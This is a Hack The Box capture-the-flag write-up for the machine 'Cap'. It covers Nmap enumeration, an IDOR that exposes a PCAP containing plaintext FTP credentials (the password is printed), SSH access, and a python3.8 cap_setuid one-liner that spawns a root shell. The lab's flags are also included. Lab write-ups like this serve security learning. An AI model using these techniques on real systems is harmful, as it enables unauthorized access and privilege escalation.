




# Hack The Box - Cap

Welcome to this writeup on Cap, an easy Linux machine on Hack The Box. I created this walkthrough to reinforce my own learning and to document the techniques I used while solving the box. Along the way, I’ll explain the reasoning behind each step so the post stays useful and readable, rather than feeling like a raw command log.

Cap is an easy Linux target that hosts a web application with administrative functionality, including packet capture features. A broken access control issue leads to an IDOR vulnerability, which allows access to another user’s capture file. That capture contains plaintext credentials, making it possible to gain an initial foothold. From there, a Linux capability assigned to Python can be abused to escalate privileges to root.

## Enumeration

To begin, I ran an Nmap scan to identify open ports and services on the target.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A 10.10.10.245
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-26 07:31 EDT
Nmap scan report for 10.10.10.245
Host is up (0.58s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Thu, 26 Sep 2024 11:31:43 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 26 Sep 2024 11:31:33 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 26 Sep 2024 11:31:35 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=9/26%Time=66F54614%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,2A0C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Thu,\x2026\x20Sep\x202024\x2011:31:33\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"
SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Thu,
SF:\x2026\x20Sep\x202024\x2011:31:35\x20GMT\r\nConnection:\x20close\r\nCon
SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x2
SF:0OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
SF:20Thu,\x2026\x20Sep\x202024\x2011:31:43\x20GMT\r\nConnection:\x20close\
SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
No exact OS matches for host.
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=9/26%OT=21%CT=1%CU=31508%PV=Y%DS=2%DC=T%G=Y%TM=66F5
OS:46D7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=B)SEQ(SP=106%GCD=1%ISR=10C%TI
OS:=Z%CI=Z%II=I%TS=C)SEQ(SP=106%GCD=2%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5
OS:3AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O
OS:6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%D
OS:F=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0
OS:%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
OS:RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%I
OS:PL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 2 hops

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT       ADDRESS
1   854.30 ms 10.10.16.12
2   425.55 ms 10.10.10.245

Nmap done: 1 IP address (1 host up) scanned in 207.73 seconds
```

The scan shows three open TCP ports: 21 for FTP, 22 for SSH, and 80 for HTTP.

I then added the target hostname to `/etc/hosts` for easier access:

```bash
echo "10.10.10.245 cap.htb" | sudo tee -a /etc/hosts
```

## Web Enumeration

### Website — TCP 80



The web application presents itself as a security monitoring dashboard.

The main page shows that a user named Nathan is already authenticated, although the dropdown options under his name are not active.

The left-hand navigation reveals a few additional pages beyond the dashboard.

Visiting the Security Snapshot page at `/capture` causes the application to redirect after a short delay to `/data/5`, where a packet list is displayed.

If I return to `/capture` while directory brute forcing is running, I later reach `/data/7`, which exposes actual packet data instead of an empty view.



The download link on that page points to `/download/7`, which serves a legitimate PCAP file.



Inspecting the capture in Wireshark reveals plaintext FTP credentials:

```
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS REDACTED
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```


- Username: `nathan`
- Password: `Buck3tH4TF0RM3!`

Using those credentials, I log in to FTP and discover that the server is exposing Nathan’s home directory.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo ftp 10.10.10.245
[sudo] password for kali:
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23160|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1001 1001   824942 Sep 26 09:00 exploit
-rwxrwxr-x    1 1001 1001       52 Sep 26 06:09 py.py
drwxr-xr-x    3 1001 1001     4096 Sep 26 09:02 snap
-r--------    1 1001 1001       33 Sep 26 04:03 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||54324|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**|    33        0.18 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.03 KiB/s)
ftp>
```

I then read the user flag locally:

```bash
┌──(kali㉿kali)-[~]
└─$ cat user.txt
33e736ca455ed714f8a1319bb0d10f47
```

The same credentials also work over SSH, which gives a shell as Nathan.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password:

Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep 26 12:34:45 UTC 2024

  System load:           0.0
  Usage of /:            36.8% of 8.73GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             233
  Users logged in:       1
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:ae2d

  => There are 4 zombie processes.

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Thu Sep 26 11:03:16 2024 from 10.10.16.84
nathan@cap:~$ ls
exploit  py.py  snap  user.txt
```

## Privilege Escalation

For privilege escalation, LINPEAS highlights an interesting Linux capability on the Python 3.8 binary, which fits the theme of the machine name:

```text
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Or you can search with this command : 

```bash 
getcap -r / 2>/dev/null
```


This means the Python binary has capabilities assigned that make it particularly useful for privilege escalation.

- `/usr/bin/python3.8` is the Python interpreter on the system.
- `cap_setuid` allows a process to change its user ID, which can be used to switch to another user, including root.
- `cap_net_bind_service` allows binding to privileged ports below 1024.
- `+eip` indicates that the capability is effective and inheritable.

Because Python can call `os.setuid(0)`, we can use the assigned capability to spawn a root shell.

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Running that from Nathan’s shell gives immediate root access:

```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cat /root/root.txt
27b95eb8a8a9f365c819004b9e7d93fc
root@cap:~#
```

That completes the box with full root access.

## (Attack Chain)

1. **Scan ports** — Nmap shows FTP, SSH, and HTTP.
2. **Check web app** — The dashboard includes a capture feature (exploting IDOR).
3. **Abuse `/capture`** — Download the PCAP file.
4. **Grab credentials** — The PCAP reveals plaintext FTP credentials.
5. **Login as Nathan** — The same creds work for FTP and SSH.
6. **Check privilege escalation** — Python has the `cap_setuid` capability.
7. **Become root** — Use `python3.8` with `os.setuid(0)`.
8. **Read the flag** — Collect `/root/root.txt`.
